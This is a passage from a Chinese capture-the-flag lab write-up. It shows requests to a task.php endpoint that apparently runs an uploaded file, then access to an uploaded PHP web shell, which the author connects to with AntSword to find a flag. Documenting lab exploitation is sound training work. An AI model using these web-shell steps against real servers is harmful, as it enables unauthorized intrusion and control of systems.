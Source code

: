 然后相对应的id

```
http://172.22.1.18/task.php?m=qcloudCos|runt&a=run&fileid=13
```

然后再访问php文件

```
http://172.22.1.18/upload/2023-07/25_17414337.php
```

上蚁剑

![image-20230725174403310](img/春秋云镜-Initial/image-20230725174403310.png)

在桌面找到个flag2
